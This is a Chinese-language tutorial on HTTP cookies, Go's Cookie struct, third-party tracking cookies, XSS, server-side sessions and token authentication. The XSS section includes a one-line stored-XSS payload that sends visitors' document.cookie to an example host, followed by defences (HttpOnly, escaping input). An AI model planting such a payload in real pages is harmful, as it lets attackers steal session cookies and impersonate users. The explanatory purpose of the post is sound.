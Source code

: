 http请求是无状态的，但是我们需要去保持一些状态，于是诞生了cookie头部

cookie可以是请求头部，也可以是响应头部

# cookie
通常服务器会给响应报文添加 Set-Cookie:.... 头部，来添加cookie

在服务器选择返回的cookie通常有多个属性

```
    type Cookie struct {
        Name  string //key-val
        Value string

        Path       string    // optional，当请求匹配上该路径时才携带cookie
        Domain     string    // optional，当请求该域名时才携带cookie
        Expires    time.Time // optional，持久性cookie，这个时间点后，浏览器才会销毁cookie
        RawExpires string    // for reading cookies only

        // MaxAge=0 means no 'Max-Age' attribute specified.,会在退出浏览器后删除该cookie
        // MaxAge<0 means delete cookie now, equivalently 'Max-Age: 0'，马上，现在就给删了
        // MaxAge>0 means Max-Age attribute present and given in seconds，经过多少秒后失效
        MaxAge   int
        Secure   bool   //true，cookie只有在https加密的情况下才会被发给客户端
        HttpOnly bool  //客户端无法通过js获取cookie，但是并不能完全防止xss攻击
        SameSite SameSite   //
        Raw      string
        Unparsed []string // Raw text of unparsed attribute-value pairs，不对转义过的键值对进行解析
    }
```

    Set-Cookie:key="i am a cookie"; Max-Age=10; HttpOnly

如果不设置Max-Age或值为0，则浏览器获取cookie后会暂存，下次再访问获取到cookie的domain+path网页(一般只要是相同顶级域名就携带)，会携带cookie，直到浏览器被关闭后才清除

如果值>0，则会缓存，直到过期被删除

浏览器通过Cookie头部携带接受的和缓存的cookie发送给服务器

# 第三方cookie
假设a、b、c 三个页面植入了 d 公司的广告，你请求这三个页面都会再去请求 d 服务器的一个广告图片

1. 你请求了a页面，解析页面后去请求d服务器的一个图片，d服务器返回给你一个cookie：user="kanggege";page="a";domain="advertisement.com"
2. 后来你请求b页面，同样要请求一个d服务器的广告图片,cookie：user="kanggege";page="b";domain="advertisement.com"
3. c页面,cookie：user="kanggege";page="c";domain="advertisement.com"

通过识别你的身份和你访问网页的标识，可以知道你的访问记录，更偏向于访问哪种类型的网站，从而给你推送对应的广告

甚至追踪你所有的访问记录

# 跨站脚本XSS
假设有一个论坛网站，我在下面留言

    <script>window.location=http://abc.com?cookie=docuemnt.cookie</script>

我的留言被存入数据库，并再其他人访问时从数据库查询出来，并加载到页面中，则该脚本生效，我就获取到了访问者的cookie

一般cookie会存储登录状态，这是我就可以用这个cookie伪装他的身份登录

解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。

最好还是要将从用户得到的信息在存入数据库之前进行转义，这样更安全

# session
通过客户端的cookieid可以在服务器上维护一个唯一的session，对应这个用户

所谓session就是一个数据结构，类似于map\[key]data，cookie就是key，通过key得到data，这个data可以存入任何数据或取出已经存入的数据

所以可以通过session维护用户的登录操作，具体实现如下：

1. 接受到一个请求，获取请求中request的cookie值，如果能获取到cookieid，则用户已经登录，通过cookieid获取session，从session中获取用户身份信息，否则用户未登录
2. 跳转用户登录，验证账号密码，response中设置cookieid，为cookieid创建session，将session中存入一个数据(例如：userid)保存用户登录状态

## 单机
这种登录方式很简单，但是局限于单机应用，如果几十万的用户登录，一个服务器维护几十万session，就很吃力了，如果采用多个机器负载均衡，就要两个机器间同步session，否则第二次请求发到没有session的机器上，就要重新登录，局限太多

## 缓存
于是就有了缓存技术，用一个机器运行类redis数据库专门存储session，所有机器都去redis机器查，但是这个机器挂了所有人就要重新登录一次了,gg

为了避免单节点失效，就有了分布式session，为了存个session搞这么大的事，cookieid还容易被劫持，真麻烦，有没有简单方法

## token
要是能把session存在客户端就好了，众所周知这是不安全的，要是能让他安全存在客户端，就不用操心session存储和cookie劫持了

回到起点想一想session的作用，如果用户登录就给他创建一个session返回cookie，通过cookieid查找session，通过查找结果就能知道是否登录

1. 用户账号密码登录
2. 服务器验证，成功后创建sessionid-value，将sessionid作为cookie值返回
3. 用户访问同一个域名下的网页自动携带cookie即sessionid
4. 服务器获取cookie，得到sessionid，查找对应value，获取用户登录状态以及其他信息

其本质就是维护一个登录状态，为什么不直接返回cookie维护呢？因为用户可以在客户端伪造cookie，但他无法在服务器上伪造session

如果我们创造一个只有登录后才会有且无法伪造的cookie，服务端就不需要维护session，登录状态维护在客户端，问题就解决了

来吧万能的加密算法

我们可以将 **SHA256(uid + 秘钥) 得到一个token**，返回给客户端让他以后登录都带着token，这个秘钥他不知道，所以客户端无法伪造，而服务端可以通过秘钥检测token是否正确。就解决了sessionid的问题，但是token还是能被劫持！

基于token的认证服务如下

1. 用户账号密码登录
2. 服务器验证，正确后查找uid，token=单向加密算法(登录状态 + 秘钥)，将登录状态+token返回给客户端
3. 用户访问该域名(或还能指定其他域名)时自动携带
4. 服务器验证token是否正确，判断登录状态
